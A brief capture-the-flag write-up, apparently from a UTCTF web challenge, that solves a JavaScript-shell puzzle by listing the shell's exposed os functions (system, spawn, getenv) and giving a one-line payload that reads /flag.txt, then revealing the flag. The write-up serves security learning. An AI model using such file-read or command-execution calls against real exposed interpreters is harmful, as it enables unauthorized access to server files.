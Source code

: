 #### Challenge:

Help me show Bob how slow his browser is! [http://web1.utctf.live:8124/](http://web1.utctf.live:8124/)

---

#### Solution:

- upon playing around with `jsshell` we see that it has `help()` that shows all usable functions these are the most interesting for us

```console
os - interface object with 8 entries
  getenv(variable)
  getpid()
  system(command)
  spawn(command)
  kill(pid[, signal])
  waitpid(pid[, nohang])
  os.file - interface object with 6 entries
  os.path - interface object with 2 entries
```

```js
console.log(os.file.readFile("/flag.txt"));
```

---

<details><summary>FLAG:</summary>

```
utflag{d1d_y0u_us3_a_j1t_bug_0r_nah}
```

</details>
<br/>
